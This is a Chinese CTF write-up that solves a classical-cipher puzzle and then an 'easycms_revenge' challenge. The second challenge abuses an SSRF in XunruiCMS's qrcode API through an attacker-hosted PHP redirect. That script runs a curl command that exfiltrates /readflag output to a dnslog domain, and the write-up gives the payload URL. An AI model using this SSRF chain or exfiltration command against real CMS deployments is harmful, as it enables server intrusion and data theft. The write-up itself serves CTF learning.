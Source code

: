 古典密码：

题目：AnU7NnR4NassOGp3BDJgAGonMaJayTwrBqZ3ODMoMWxgMnFdNqtdMTM9

题目限制在古典密码解密中，一个一个解密试，用Atbash Cipher获取了一个可以接着解密的字符串ZmF7MmI4MzhhLTk3YWQtZTlmNzQzbGdiYjA3LWNlNDctNmUwMjgwNGN9,然后发现可以魔术方法base64解码，发现fa{2b838a-97ad-e9f743lgbb07-ce47-6e02804c}，发现还不是flag格式，在继续找古典密码解密，最后发现栅栏解密出了符合flag格式的字符串。

flag{b2bb0873-8cae-4977-a6de-0e298f0744c3}





easycms_revenge

主页进去发现是xunruiCMS，在github里面下载源码发现有一条源码可以进行利用，qrcode发现二维码，可以进行api利用

return ROOT_URL.'index.php?s=api&c=api&m=qrcode&uid='.urlencode($uid).'&text='.urlencode($text).'&size='.$size.'&level='.$level;

在api.php中发现thunb的这个参数进行了一定的处理，输出一个二维码

put_file_content函数的利用ssrf漏洞，用vps重定向执行命令执行，在自己的服务器上构造脚本；222.php

GIF89a
<?php
echo "GIF89a";
Header("Location: http://127.0.0.1/flag.php?cmd=curl http://`/readflag`.7i8vrf.dnslog.cn");
//Header("Location: http://baidu.com");
exit();
?>

再用浏览器访问主页的该脚本

payload：

?s=api&c=api&m=qrcode&thumb=http://120.76.142.165:35666/222.php&text=1&size=1&level=1

最后用[DNSLog Platform](http://dnslog.cn/)该网站监听网址携带的信息获取flag

| DNS Query Record                                          | IP Address   | Created Time         |
| --------------------------------------------------------- | ------------ | -------------------- |
| flaga04abcf1-ce10-4564-8963-ba2a3ea8a407.7i8vrf.dnslog.cn | 39.96.152.65 | 2024-5-19 17：07：50 |

![image-20240519173144790](https://raw.githubusercontent.com/odiws/blog-img/main/image-20240519173144790.png)